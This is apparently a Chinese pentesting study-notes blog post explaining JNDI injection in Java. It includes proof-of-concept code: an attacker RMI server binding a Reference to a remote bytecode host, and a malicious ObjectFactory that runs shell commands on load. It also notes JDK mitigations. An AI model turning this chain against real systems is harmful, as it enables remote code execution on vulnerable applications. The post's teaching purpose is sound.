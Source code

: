 ```yaml
---
draft: false
isCJKLanguage: true
date: 2022-03-30
lastmod: 2022-03-30
title: "JNDI 注入"
description: 我的个人博客，主要用于记录自己的一些渗透测试、编程等学习笔记之类的东西。
categories: 
  - Pentest
tags:
  - jdni
  - 反序列化
---
```



### 0x00 JDNI
JNDI(Java Naming and Directory Interface) 是 Java 提供的 Java 命名和目录接口

JNDI 可访问的现有的目录及服务有：JDBC、LDAP、RMI、DNS、NIS、CORBA

JNDI 可对 LDAP、RMI 等服务进行封装，从而提供统一的客户端 API

![80](/img/post/Xnip2022-05-30_10-13-30.jpg)

### 0x01 调用 RMI 远程对象
RMI Server 端监听两个端口，一个是 rmi 端口1099，一个是随机的通信端口；

Client 端调用 Server 远程对象需要先获取 Stub；

Client 可以通过监听 1099 的 rmi 上的 RMIRegistry 这个远程对象来获取 Stub；

之后 Client 通过 Stub 连接到 Server 端监听的通信端口并提交参数；

远程 Server 端上执行具体的方法，并返回结果给 Stub，Stub 返回执行结果给 Client 端；

从 Client 看来就好像是 Stub 在本地执行了这个方法一样；

![70](/img/post/Xnip2022-05-30_10-15-16.jpg)

RMI 服务端启动远程对象 Registry
```java
IHello rhello = new HelloImpl();
LocateRegistry.createRegistry(1099);
Naming.bind("rmi://0.0.0.0:1099/hello", rhello);
```

客户端获取 RMI 服务端的远程对象 rhello
```java
Registry registry = LocateRegistry.getRegistry("192.168.1.110", 1099);
IHello rhello = (IHello) registry.lookup("hello");
rhello.sayHello("test");
```

### 0x02 动态加载类
RMI 核心特点之一就是动态类加载，如果当前 JVM 中没有某个类的定义，它可以通过 URL 从远程 web 服务去下载这个类的 class 文件

客户端同样需要有运行时动态加载额外类的能力，客户端使用了与 RMI 注册表相同的机制，RMI 服务端将 URL 传递给客户端，客户端通过 HTTP 请求下载这些类

### 0x03 JNDI 注入
JNDI 注入其实是把目标主机，即使用 JNDI 服务的主机当作了 Client，它请求了恶意的 RMI

JNDI 接口在初始化时，可以将 RMI URI 作为参数传入，而 JNDI 注入就出现在客户端的 lookup() 函数中，如果<f>lookup() 的参数可控</f>就可能被攻击。

```java
public static void main(String[] args) {
    try {
        String uri = "rmi://192.168.1.110:1099/rhello";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

在 JNDI 服务中，RMI 服务端除了直接绑定远程对象之外，还可以通过 References 类来绑定一个外部的远程对象。绑定了 Reference 之后，服务端会先通过 Referenceable.getReference() 获取绑定对象的引用，并且在目录中保存。当客户端(JNDI 服务)在 lookup() 查找这个远程对象时就会获取相应的 object factory，最终通过 factory 类将 reference 转换为具体的对象实例。

JNDI 注入流程：

* 目标代码中调用了 InitialContext.lookup(URI)，且URI为用户可控；
* 攻击者控制 URI 参数为 RMI 服务地址，如：rmi://hacker_rmi_server/name；
* 攻击者 RMI 服务器绑定一个 web 服务中的 Reference 对象，Reference 对象中指定某个恶意的 Factory 类，而 Factory 类文件的构造方法、静态代码块、getObjectInstance() 方法等处可写入恶意代码；
* 客户端在进行 lookup() 操作时，会动态加载并实例化恶意 Factory 类，并调用 factory.getObjectInstance() 获取外部远程对象实例，从而 RCE；

### 0x04 JDNI 注入例子
攻击者代码

```java
public static void main(String[] args) throws Exception {
    try {
        Registry registry = LocateRegistry.createRegistry(1099);
        
        // http://123.123.123.123:8081/ 为放字节码文件的 web 服务器
        Reference aa = new Reference("Calc", "Calc", "http://123.123.123.123:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        
        registry.bind("hello", refObjWrapper);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

恶意对象，保存为 java 文件，用 javac 编译成 .class 字节码文件，上传到 web 服务器

```java
import java.lang.Runtime;
import java.lang.Process;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
​
public class Calc implements ObjectFactory {
    {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc2"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    public Calc() {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc3"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/Calc4"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
        return null;
    }
}
```

被攻击者代码

```java
public static void main(String[] args) {
    try {
        String uri = "rmi://123.123.123.123:1099/hello";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

### 0x05 jdk 版本问题
在 jdk8u121 7u131 6u141 版本开始默认 com.sun.jndi.rmi.object.trustURLCodebase 设置为 false，rmi 加载远程的字节码不会执行成功

在 jdk11.0.1 8u191 7u201 6u211 版本开始默认 com.sun.jndi.ldap.object.trustURLCodebase 设置为 false，ldap 加载远程的字节码不会执行成功。

在 jdk8u191 之后 RMI 和 LDAP 默认都不能从远程加载类，但还是可以在 RMI 和 LDAP 中获取对象



#### Reference(侵删)：
* [https://mp.weixin.qq.com/s/cyeEAv31GO_hZCTXVRBkxw](https://mp.weixin.qq.com/s/cyeEAv31GO_hZCTXVRBkxw?_blank)
* [https://mp.weixin.qq.com/s/GJ9Dio_7A8RCeipilIHXEg](https://mp.weixin.qq.com/s/GJ9Dio_7A8RCeipilIHXEg?_blank)

